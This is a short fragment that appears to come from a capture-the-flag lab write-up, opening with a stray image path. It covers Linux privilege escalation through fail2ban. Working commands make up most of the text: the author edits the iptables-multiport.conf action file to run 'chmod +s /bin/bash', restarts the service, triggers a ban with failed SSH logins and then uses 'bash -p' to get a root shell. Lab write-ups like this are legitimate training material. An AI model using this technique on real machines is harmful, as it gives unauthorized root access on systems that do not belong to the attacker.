 ```
sudo -u fred bash
```

fred can do fail2ban which we can use to do prev esc.
```
systemctl status fail2ban
[active]
cd /etc/fail2ban/
ls -la
cd action.d/
ls -la
nano iptables-multiport.conf
```
now change some commands
```
actionban = chmod +s /bin/bash

actionunban = chmod +s /bin/bash
```
now let's restart the binary
```
sudo /bin/systemctl restart fail2ban
```
now let's watch the bin/bash

```
watch -n 0 ls -la /bin/bash
```
create a new terminal and we are going to ban ourselves
```
sshpass -p anything ssh lithex@10.10.175.36
```
if we run this our /bin/bash will change and if we run ```bash -p``` and we'll be root.

and now we can go to /root directory and here is the root.txt

